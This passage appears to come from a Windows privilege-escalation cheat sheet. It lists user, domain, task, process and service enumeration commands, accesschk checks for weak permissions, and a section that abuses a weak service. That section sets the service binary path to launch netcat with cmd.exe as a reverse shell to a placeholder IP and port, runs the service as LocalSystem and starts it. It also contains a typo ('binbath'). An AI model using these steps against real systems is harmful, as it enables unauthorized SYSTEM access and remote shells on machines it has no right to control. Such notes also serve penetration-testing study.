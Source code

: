 User Enum
```console
net users
net user <USER>
```

Show all hosts in that domain
```console
net view /domain
```


### Weak services

Shows all scheduled tasks
```console
schtasks /query /fo LIST /v
```

Shows all running processes
```console
tasklist /SVC
```

Shows all started services
```console
net start
```

Find weak services
```console
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
accesschk.exe /accepteula -ucqv <SERVICE>
```

Find all weak folder permissions per drive
```
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
```

Find all weak file permissions per drive
```
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

Modify weak services
```
sc qc <SERVICE>
sc config <SERVICE> binbath= "C:\nc.exe -nv <IP> <PORT> -e C:\Windows\System32\cmd.exe"
sc config <SERVICE> obj= ".\LocalSystem" password= ""
net start <SERVICE>
```

Using Priv-Esc-Checking tool
```console
windows-privesc-check2.exe --audit -a -o report
```

